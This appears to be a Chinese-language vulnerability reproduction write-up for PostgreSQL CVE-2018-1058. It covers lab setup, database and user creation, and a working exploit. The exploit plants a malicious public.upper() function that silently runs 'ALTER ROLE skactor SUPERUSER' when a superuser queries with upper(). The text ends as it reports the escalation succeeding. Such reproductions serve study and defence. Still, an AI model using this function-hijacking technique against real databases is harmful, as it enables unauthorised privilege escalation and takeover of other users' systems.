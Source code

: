 ## 4 漏洞复现及利用

### 4.1 利用思路

**CVE-2018-1058** 中描述的问题围绕默认的“`public`”模式以及 PostgreSQL 如何使用`search_path`设置。能够在不同模式下创建具有相同名称的对象，并结合 PostgreSQL 在**模式中搜索对象的方式**，为用户提供了**修改其他用户查询行为**的机会。 所以可以通过会在`public`模式中插入一个与内置函数同名的自定义函数来进行钓鱼，达到越权执行命令的目的。

### 4.2 漏洞环境

PostgreSQL: [Postgres 9.6.7.1 Win64](https://www.openscg.com/bigsql/oscg_archive_download/?file=packages/PostgreSQL-9.6.7-1-win64-bigsql.exe&user=${auth.authName})

安装完成后，执行`psql -U postgres`连接数据库，执行下列语句：

```SQL
CREATE DATABASE cve_test; # 创建数据库cve_test
CREATE USER skactor WITH PASSWORD 'skactor'; # 创建用户skactor
CREATE USER test WITH PASSWORD 'test'; # 创建用户test
GRANT ALL PRIVILEGES ON DATABASE cve_test to skactor; # 把cve_test的权限全都授予skactor
GRANT ALL PRIVILEGES ON DATABASE cve_test to test; # 把cve_test2的权限全都授予test
```

### 4.3 漏洞利用

#### 4.3.1 利用方式一

使用用户 skactor 登录:

```
psql -U skactor -d cve_test
```

依次执行下面语句:

```SQL
CREATE TABLE public.test AS SELECT 'CVE-2018-1058'::varchar AS contents;

CREATE OR REPLACE FUNCTION public.upper(character varying)
  RETURNS text AS
$BODY$ALTER ROLE skactor SUPERUSER;
SELECT pg_catalog.upper($1);
$BODY$
  LANGUAGE sql VOLATILE;
```

再切换到超级用户 postgres 登录 cve_test 数据库，执行下列语句：

```SQL
select upper(contents) from test;
```

此时再通过 pgAdmin3 查看普通用户 skactor 权限，发现其权限已经被提升：
